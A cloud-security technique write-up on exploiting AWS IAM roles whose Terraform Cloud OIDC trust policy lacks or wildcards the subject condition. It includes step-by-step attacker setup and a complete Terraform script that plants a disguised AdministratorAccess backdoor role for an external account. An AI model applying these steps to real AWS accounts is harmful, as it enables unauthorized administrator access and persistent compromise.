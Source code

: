 ```yaml
---
author_name: Eduard Agavriloae
title: "Exploiting Misconfigured Terraform Cloud OIDC AWS IAM Roles"
description: Discover how to identify and exploit misconfigured AWS IAM roles using Terraform Cloud OIDC
---
```


<div class="grid cards" markdown>

-   :material-account:{ .lg .middle } __Original Research__

    ---

    <aside style="display:flex">
    <p><a href="https://hacktodef.com/addressed-aws-defaults-risks-oidc-terraform-and-anonymous-to-administratoraccess">Addressed AWS defaults risks: OIDC, Terraform and Anonymous to AdministratorAccess</a> by <a href="https://www.linkedin.com/in/eduard-k-agavriloae/">Eduard Agavriloae</a></p>
    <p><img src="/images/researchers/eduard_agavriloae.jpg" alt="Eduard Agavriloae" style="width:44px;height:44px;margin:5px;border-radius:100%;max-width:unset"></img></p>
    </aside>

</div>

OIDC stands for OpenID Connect and is an identity layer built on top of the OAuth 2.0 protocol. In AWS, OIDC can be used to federate identities from external identity providers, such as Google, Facebook or Terraform, allowing users to access AWS resources using their existing third-party accounts.

OIDC is useful because instead of creating a set of AWS access keys for a user with administrator permissions and worry that they might get exposed, you can configure an IAM role with OIDC for Terraform Cloud to assume.

![Terraform OIDC Flow](../../../images/aws/exploitation/exploiting_misconfigured_terraform_cloud_oidc_aws_iam_role/0-flow-oidc-terraform.jpeg)

## IAM role misconfiguration using Terraform Cloud OIDC

### Part of the past as of 7th of February

When the issue was first documented, the presence of this misconfiguration was partially facilitated by AWS. If you were to create from the web portal a new IAM role for Terraform Cloud, by default the role's trust policy would look like this:

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
       "Effect": "Allow",
       "Principal": {
         "Federated": "arn:aws:iam::<aws-account-id>:oidc-provider/app.terraform.io"
       },
       "Action": "sts:AssumeRoleWithWebIdentity",
       "Condition": {
         "StringEquals": {
            "app.terraform.io:aud": "aws.workload.identity"
         }
       }
    }
  ]
}
```

This trust role policy is missing the "app.terraform.io:sub" condition. Essentially, the present misconfiguration allows anyone to assume this role. As documented by [Terraform Cloud](https://developer.hashicorp.com/terraform/cloud-docs/workspaces/dynamic-provider-credentials/aws-configuration), you need to specify your organization through the subject condition like below to limit the access to this role:

```json
"Condition": {
    "StringEquals": {
      "app.terraform.io:aud": "aws.workload.identity"
    },
    "StringLike": {
      "app.terraform.io:sub": "organization:<your-terraform-organization>:project:<project>:workspace:<workspace>:run_phase:<run_phase>"
    }
}
```

Well, AWS made some changes and now they require from the start to specify the Organization, Project, Workspace, and Run Phase. Even more, now you can't create Terraform Cloud OIDC roles that don't have the subject condition.

![Configuration Web Console](../../../images/aws/exploitation/exploiting_misconfigured_terraform_cloud_oidc_aws_iam_role/1-engineer-configuration.png)

And for anyone who had a role for Terraform Cloud without the subject, on 8th of November 2024 AWS sent a notification that announced two things:

- Starting 7th of November 2024 you will not be able to create new Terraform Cloud roles without the subject condition
- Starting 7th of February 2025 the subject condition will be enforced for these roles (so most likely the misconfigured roles will not work anymore afterwards)   

![Configuration Web Console](../../../images/aws/exploitation/exploiting_misconfigured_terraform_cloud_oidc_aws_iam_role/3-notification-aws.jpeg)

So while you might still be able to find roles misconfigured like this (without the subject condition), just be aware that the attack against it most likely will not work starting from 7th of February 2025.

Can you still exploit misconfigured Terraform Cloud OIDC roles? Yes.

### The present misconfiguration

These roles can still be misconfigured. All it takes is an asterisks in the organization's name.

![Configuration Web Console](../../../images/aws/exploitation/exploiting_misconfigured_terraform_cloud_oidc_aws_iam_role/2-engineer-role.png)

So let's say we identified a role with the next trust policy:

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Principal": {
                "Federated": "arn:aws:iam::259230201556:oidc-provider/app.terraform.io"
            },
            "Action": "sts:AssumeRoleWithWebIdentity",
            "Condition": {
                "StringEquals": {
                    "app.terraform.io:aud": "aws.workload.identity"
                },
                "StringLike": {
                    "app.terraform.io:sub": "organization:hackingthe*:project:blog:workspace:prod-front-end:run_phase:*"
                }
            }
        }
    ]
}
```

Notice the asterisk from the organization's name. Because the value is `hackingthe*`, we should be able to assume this role as described in the next section.

## Exploitation

Go to [Terraform Cloud](https://app.terraform.io/), create an account (it's free) and:

- Create an organization that follows the mentioned pattern: `hackingthe-*`
- Create a project named `blog`
- Create a workspace named `prod-front-end`

The `run_phase` is usually an asterisk as it's values refer to the stages that occur during a Terraform operation: plan, policy check and apply.

The next step involves configuring the next two variables in Terraform Cloud:

- TFC_AWS_PROVIDER_AUTH: true
    - This will tell Terraform Cloud to authenticate with AWS
- TFC_AWS_RUN_ROLE_ARN: arn:aws:iam::<aws-account-id>:role/<role-name>
    - This will tell Terraform Cloud what role to assume

![Configuration Web Console](../../../images/aws/exploitation/exploiting_misconfigured_terraform_cloud_oidc_aws_iam_role/4-attacker-config.png)


Prepare a Terraform script of your choice. Here is an example that wil create a backdoored role with administrator permissions. Please make sure you are authorized to perform this test.

```text
# here we need to set the the details of our organization
terraform {
  cloud {
    organization = "hackingthe-anything"
    workspaces {
      name = "prod-front-end"
    }
  }
}

# region can be anything if you create only IAM resources
provider "aws" {
  region = "eu-central-1"
}

# create role named "AWSServicesRoleForAutomation" that can be assumed from an external AWS account
resource "aws_iam_role" "create_role" {
  name               = "AWSServicesRoleForAutomation"
  assume_role_policy = jsonencode({
    "Version" : "2012-10-17",
    "Statement": [
      {
        "Effect": "Allow",
        "Principal": {
          "AWS": "arn:aws:iam::<external-aws-account>:root"
        },
        "Action": "sts:AssumeRole",
        "Condition": {}
      }
    ]
  })
}

# attach administrator level permissions to this role
resource "aws_iam_policy_attachment" "create_role_backdoor" {
  name       = "create_role_backdoor"
  roles      = [aws_iam_role.create_role.name]
  policy_arn = "arn:aws:iam::aws:policy/AdministratorAccess"
}
```

Save this to `main.tf`, login in terraform CLI and apply the changes.

```bash
terraform login
terraform init
terraform apply
```

Now the role should be created and you can try to assume it from the external AWS account.
